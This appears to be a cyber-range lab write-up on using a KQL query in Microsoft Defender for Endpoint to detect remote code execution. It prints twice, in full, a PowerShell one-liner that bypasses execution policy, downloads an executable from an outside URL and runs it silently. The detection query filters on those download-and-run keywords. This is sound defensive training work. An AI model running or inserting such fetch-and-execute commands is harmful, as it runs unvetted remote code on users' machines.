 Upon running the detection rule, we identified the following PowerShell command executing on the compromised machine:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```

This command triggered the download and installation of a malicious 7zip executable from an external URL. The executable was silently executed with the /S flag, which instructed the installer to run without user intervention (silent installation). 👾

Upon investigation, we determined that the malicious payload had been downloaded to `C:\ProgramData\7z2408-x64.exe` and was automatically executed, likely allowing the attacker to gain remote control of the machine. 🚨

---

## Detection and Response 🛡️

Once the suspicious activity was identified:

### 1. KQL Query to Find the RCE PowerShell Payload 🔍

To detect this type of activity, we used the following KQL query in Microsoft Defender for Endpoint (MDE):

```kusto
let target_machine = "whateverYourMachineIsName";
DeviceProcessEvents
| where DeviceName == "trce12"
| where AccountName != "system"
| where InitiatingProcessCommandLine has_any ("Invoke-WebRequest", "Start-Process")
| order by Timestamp desc 
```

This query was designed to look for any PowerShell command that used Invoke-WebRequest to download a file and Start-Process to execute it. Specifically, it captures the activity related to the malicious payload execution, allowing us to detect the attack's presence within the last hour. 🧐

![Screenshot 2025-01-12 173352](https://github.com/user-attachments/assets/cdd76fba-d585-4ecb-8b18-344465e49b45)

---

### Step 3: Create a Detection Rule Specific to Your VM ⚡🛠️

1. **Detection Rule Setup**:
    - We want to focus on **Remote Code Execution** (RCE) specifically for your VM. This rule will only trigger for **your VM** to prevent quarantining others' machines. 🎯

2. **RCE Detection Rule**:
    - We’ll detect any PowerShell script automating the download and installation of a program. Here's the **command** we’ll use to automate the downloading and installation of **7zip**:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```

---